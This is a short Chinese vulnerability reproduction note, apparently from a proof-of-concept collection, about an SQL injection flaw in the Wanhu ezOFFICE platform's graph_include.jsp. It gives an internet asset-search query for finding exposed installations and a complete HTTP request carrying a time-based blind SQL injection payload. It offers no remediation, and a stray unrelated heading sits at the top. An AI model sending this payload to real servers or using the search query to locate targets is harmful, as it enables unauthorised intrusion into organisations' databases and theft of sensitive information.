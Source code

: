 # DecryptionAppDecryptionApp一、漏洞简介
万户ezOFFICE协同管理平台是一个综合信息基础应用平台。 万户协同办公平台ezoffice graph_include存在SQL注入漏洞，攻击者通过发送特殊的请求包可以对数据库进行SQL注入，获取服务器敏感信息。
# 二、影响版本

- 万户ezoffice
# 三、资产测绘

- hunter`app.name="万户 Ezoffice OA"`
- 登录页面

![image.png](https://cdn.nlark.com/yuque/0/2023/png/1622799/1694241158110-8d4eef16-79f1-46eb-899b-344bd2a7a19f.png#averageHue=%238c9cbd&clientId=u768d3813-985e-4&from=paste&height=897&id=uf94ce35f&originHeight=1794&originWidth=3524&originalType=binary&ratio=2&rotation=0&showTitle=false&size=4235609&status=done&style=none&taskId=ud366b4c7-85a6-4b59-8bdc-09b6dfd680e&title=&width=1762)
# 四、漏洞复现
```
GET /defaultroot/platform/report/graphreport/graph_include.jsp?id=2&startDate=2022-01-01%2000:00:00.000%27%20as%20datetime)%20group%20by%20t.emp_id,t.empname%20)%20%20s%20group%20by%20empname%20order%20by%20num%20desc%20%20WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Connection: close
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1622799/1723391972495-1bed6cfc-9355-45ce-b70c-e82de987329e.png#averageHue=%2389abc2&clientId=u83a5d5ab-7ef2-4&from=paste&height=527&id=u339badea&originHeight=1054&originWidth=2392&originalType=binary&ratio=2&rotation=0&showTitle=false&size=442437&status=done&style=none&taskId=u26d4b95e-a118-4d0f-baca-79f683b7180&title=&width=1196)
